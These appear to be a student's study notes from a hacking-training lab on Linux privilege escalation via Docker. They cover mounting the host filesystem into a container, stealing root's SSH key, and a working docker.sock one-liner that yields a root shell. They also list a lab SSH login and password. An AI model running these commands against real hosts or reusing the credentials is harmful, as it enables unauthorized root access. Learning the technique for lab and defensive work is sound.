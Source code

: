 
## Privilege Escalation Methods
### Method 1: Docker Sockets

- A Docker socket or Docker daemon socket is a special file that allows us and processes to communicate with the Docker daemon
- Access to the Docker socket is typically restricted to specific users or user groups
- acts as a bridge, facilitating communication between the Docker client and the Docker daemon
- By exposing the Docker socket over a network interface, we can remotely manage Docker hosts, issue commands, and control containers and other resources

#### Map Host Directory to Docker Container Directory

Map the hosts root directory to the hosts directory on the container using the main_app docker image:
![[Pasted image 20240318110741.png]]

Logging in with the first Container ID listed and grabbing the private SSH key and log in as root
![[Pasted image 20240318110823.png]]



### Method 2: Docker Group

Verify if user is in the docker group. To gain root access the user must be in the docker group
```shell-session
docker-user@nix02:~$ id

uid=1000(docker-user) gid=1000(docker-user) groups=1000(docker-user),116(docker)
```

*OR*
- Docker must have SUID set
- User must be in the Sudoers file, which permits us to run `docker` as root
#### View images we can access
```
docker image ls
```

#### Method 3: Verify if the Docker Socket is writable

Usually located in `/var/run/docker.sock`. This file is supposed only allow write permissions for root. If it is writable, you may priv esc
```shell-session
docker-user@nix02:~$ docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it ubuntu chroot /mnt bash

root@ubuntu:~# ls -l

total 68
lrwxrwxrwx   1 root root     7 Apr 23  2020 bin -> usr/bin
drwxr-xr-x   4 root root  4096 Sep 22 11:34 boot
drwxr-xr-x   2 root root  4096 Oct  6  2021 cdrom
drwxr-xr-x  19 root root  3940 Oct 24 13:28 dev
drwxr-xr-x 100 root root  4096 Sep 22 13:27 etc
drwxr-xr-x   3 root root  4096 Sep 22 11:06 home
lrwxrwxrwx   1 root root     7 Apr 23  2020 lib -> usr/lib
lrwxrwxrwx   1 root root     9 Apr 23  2020 lib32 -> usr/lib32
lrwxrwxrwx   1 root root     9 Apr 23  2020 lib64 -> usr/lib64
lrwxrwxrwx   1 root root    10 Apr 23  2020 libx32 -> usr/libx32
drwx------   2 root root 16384 Oct  6  2021 lost+found
drwxr-xr-x   2 root root  4096 Oct 24 13:28 media
drwxr-xr-x   2 root root  4096 Apr 23  2020 mnt
drwxr-xr-x   2 root root  4096 Apr 23  2020 opt
dr-xr-xr-x 307 root root     0 Oct 24 13:28 proc
drwx------   6 root root  4096 Sep 26 21:11 root
drwxr-xr-x  28 root root   920 Oct 24 13:32 run
lrwxrwxrwx   1 root root     8 Apr 23  2020 sbin -> usr/sbin
drwxr-xr-x   7 root root  4096 Oct  7  2021 snap
drwxr-xr-x   2 root root  4096 Apr 23  2020 srv
dr-xr-xr-x  13 root root     0 Oct 24 13:28 sys
drwxrwxrwt  13 root root  4096 Oct 24 13:44 tmp
drwxr-xr-x  14 root root  4096 Sep 22 11:11 usr
drwxr-xr-x  13 root root  4096 Apr 23  2020 var
```


## Questions
### SSH
```
ssh htb-student@10.129.205.237
```

### Passwd
```
HTB_@cademy_stdnt!
```

